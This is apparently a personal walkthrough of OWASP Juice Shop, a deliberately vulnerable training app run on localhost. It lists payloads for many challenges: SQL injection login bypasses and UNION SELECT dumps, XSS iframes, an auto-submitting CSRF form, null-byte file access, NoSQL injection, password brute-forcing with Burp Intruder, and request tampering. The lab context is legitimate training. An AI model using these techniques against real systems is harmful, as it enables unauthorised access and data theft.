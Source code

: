 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect <br>
span class="hot"<br>
search .hot<br>
http://localhost we may also instruct you to refuse all reasonably necessary responsibility<br>
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility<br>

### Product tampering
burp suite > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
PUT /api/products/9 HTTP/1.1<br>
Content-Type: application/json<br>
{"description":"<a href=\"https://owasp.slack.com\""}<br>

## 4 STAR

### Easter Egg
### Nested Easter Egg
### Poison Null Byte 
http://localhost:3000/ftp<br>
GET /ftp/eastere.gg%2500.md HTTP/1.1<br>
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt<br>
online Caesar ciper: /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg<br>

### Forgoteen Sales Backup
http://localhost:3000/ftp<br>
GET /ftp/coupons_2013.md.bak%2500.md HTTP/1.1<br>

### Misplaced Signature File 
http://localhost:3000/ftp<br>
GET /ftp/suspicious_errors.yml%2500.md HTTP/1.1<br>

### Forgotten Developer Backup
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>

### Leaked Unsafe Product
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)"<br>
https://pastebin.com/90dUgd7s<br>
http://localhost:3000/#/contact<br>
Comment: Hueteroneel Eurogium Edule<br>

### Vulnerable Library
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
http://localhost:3000/#/contact<br>
Comment:marsdb ~0.6,grunt ~1.0,express-jwt 0.1.3,js-yaml 3.10,sequelize ~4,sanitize-html 1.4.2,socket.io ~2.0<br>

### Legacy Typosquatting
http://localhost:3000/#/contact<br>
comment: epilogue-js<br>

### NoSQL Manipulation
write review<br>
burp suite > proxy > repeater<br>
PATCH /rest/products/reviews HTTP/1.1<br>
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }<br>

### Allowlist Bypass
http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop<br>

### Christmas special
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
POST /api/BasketItems/ HTTP/1.1
{"ProductId":10,"BasketId":"1","quantity":1}


### Ephemeral Accountant
http://localhost:3000/#/login <br>
burp suite > proxy > repeater <br>
{"email":"' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive','1999-08-16 14:14:41.644 +00:00' as 'createdAt','1999-08-16 14:33:41.930 +00:00' as 'updatedAt',null as 'deletedAt')--","password":""} <br>

### Expired Coupon
firefox > Debugger<br>
search: discount > WMNSDY2023<br>
bash > timedatectl set-ntp 0 > timedatectl set-time '2019-03-08' <br>

### Login Bjoern
firefox > Debugger > search: oauth <br>
bash > cat main1.js | grep password:
password: btoa(e.email.split("").reverse().join("")),
email: bjoern.kimminich@gmail.com
moc.liamg@hcinimmik.nreojb
bash > echo -n moc.liamg@hcinimmik.nreojb | base64
bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=
http://localhost:3000/#/login
POST /rest/user/login HTTP/1.1
{"email":"bjoern.kimminich@gmail.com","password":"bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI="}




